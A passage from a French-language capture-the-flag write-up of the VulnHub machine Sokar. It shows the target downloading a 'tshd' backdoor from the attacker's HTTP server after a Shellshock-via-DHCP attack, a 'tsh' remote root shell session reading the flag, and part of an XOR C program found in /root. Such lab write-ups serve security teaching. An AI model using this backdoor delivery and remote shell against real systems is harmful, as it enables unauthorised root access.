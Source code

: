 Et devinez qui vient diner ce soir ?  

```plain
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.1.63 - - [17/Feb/2015 22:43:03] "GET /tshd HTTP/1.0" 200 -
```

Il faut attendre un peu avoir de pouvoir profiter de l'attaque car comme on le voit dans la capture réseau l'exécution se fait via une tache cron :  

![Sokar shellshocked via DHCP](https://raw.githubusercontent.com/devl00p/blog/master/images/sokar/capt3.png)

Facile... mais sans grands intérêts.  

```plain
$ ./tsh 192.168.1.63
sh-4.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.1# cd /root
sh-4.1# ls
build.c  flag
sh-4.1# cat flag
                0   0
                |   |
            ____|___|____
         0  |~ ~ ~ ~ ~ ~|   0
         |  |   Happy   |   |
      ___|__|___________|___|__
      |/\/\/\/\/\/\/\/\/\/\/\/|
  0   |    B i r t h d a y    |   0
  |   |/\/\/\/\/\/\/\/\/\/\/\/|   |
 _|___|_______________________|___|__
|/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/|
|                                   |
|     V  u  l  n  H  u  b   ! !     |
| ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ |
|___________________________________|

=====================================
| Congratulations on beating Sokar! |
|                                   |
|  Massive shoutout to g0tmi1k and  |
| the entire community which makes  |
|         VulnHub possible!         |
|                                   |
|    rasta_mouse (@_RastaMouse)     |
=====================================
```

Au passage dans /root on trouve le code C suivant qui va vous permettre de mieux comprendre l'autre solution :  

```c
#include <stdio.h>
#include <string.h>

void encryptDecrypt(char *input, char *output) {
        char key[] = {'I'};

        int i;
        for(i = 0; i < strlen(input); i++) {
                output[i] = input[i] ^ key[i % (sizeof(key)/sizeof(char))];
        }
}

int main (int argc, char *argv[]) {
```